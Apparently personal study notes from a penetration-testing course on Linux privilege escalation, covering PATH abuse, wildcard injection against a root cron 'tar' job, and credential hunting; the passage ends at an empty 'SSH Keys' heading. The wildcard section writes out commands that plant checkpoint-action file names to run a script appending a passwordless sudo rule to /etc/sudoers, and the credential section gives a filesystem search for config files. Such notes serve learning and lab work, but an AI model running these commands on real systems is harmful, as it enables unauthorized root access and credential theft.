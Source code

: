 <br />

## Path Abuse

I don't think this section of the module is that great. `HTB_Photobomb.md` has a PATH abuse example in the privesc section.  

Putting `.` in the path  
If you put a dot in your path you won't have to write ./binary to be able to execute it  
Why would people do this? Because they are lazy  
This article explains it: https://hackmag.com/security/reach-the-root/  

<br />

## Wildcard Abuse

A wildcard character can be used as replacement for other characters and is interpreted by the shell before other actions. (ie: * ? [] ~ -)  

Take the following cron job as an example:  
`*/01 * * * * cd /root && tar -zcf /tmp/backup.tar.gz *`  

We can leverage the wild card `*` at the end of the cron job. We can do this by writing out the necessary commands as file names.  

`man tar` will show `--checkpoint` and `--checkpoint-action` flags, which is what we will use to abuse this wildcard  

`'echo "cliff.moore ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh`  
`echo "" > "--checkpoint-action=exec=sh root.sh"`  
`echo "" > --checkpoint=1`  

<br />

## Credential Hunting  

Credentials can often be found in configuration files (`.conf`, `.config`, `.xml`, etc.), shell scripts, as user's bash history file, backup (`.bak`) files, within database files, or even in text files.  

The `/var` directory typically contains the web root for whatever web server is running on the host. The web root may contain database credentials or other types of credentials that can be leveraged to further access. A common example is MySQL database credentials within WordPress configuration files.  

The `spool` or `mail` directories, if accessible may also contain valuable information or even credentials. It is common to find credentials stored in files in the web root.  

List files with config in the name:  
`find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`  

LinEnum can help:  
`./LinEnum.sh -t -k passwords`

### SSH Keys
